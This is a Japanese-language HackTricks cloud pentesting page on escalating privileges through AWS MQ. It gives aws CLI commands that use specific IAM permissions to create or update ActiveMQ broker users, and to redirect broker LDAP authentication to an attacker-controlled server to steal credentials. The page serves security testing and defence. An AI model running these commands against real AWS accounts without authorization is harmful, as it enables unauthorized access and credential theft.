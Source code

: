 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

MQに関する詳細情報は、以下を確認してください:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

これらの権限を使用すると、**ActiveMQブローカーに新しいユーザーを作成できます**（これはRabbitMQでは機能しません）：
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**潜在的な影響:** ActiveMQを通じて機密情報にアクセスする

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

これらの権限を持つことで、**ActiveMQブローカーに新しいユーザーを作成することができます**（これはRabbitMQでは機能しません）：
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**潜在的な影響:** ActiveMQを通じて機密情報にアクセス

### `mq:ListBrokers`, `mq:UpdateBroker`

ブローカーが**ActiveMQ**で**LDAP**を使用して認証している場合、攻撃者が制御する**LDAPサーバー**に使用される**設定**を**変更**することが可能です。これにより、攻撃者は**LDAPを通じて送信されるすべての資格情報を盗む**ことができます。
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
もしActiveMQで使用されている元の認証情報を見つけることができれば、MitM攻撃を実行し、認証情報を盗み、元のサーバーでそれを使用し、レスポンスを送信することができます（盗まれた認証情報を再利用するだけでこれを行うことができるかもしれません）。

**潜在的な影響:** ActiveMQの認証情報を盗む

{{#include ../../../banners/hacktricks-training.md}}
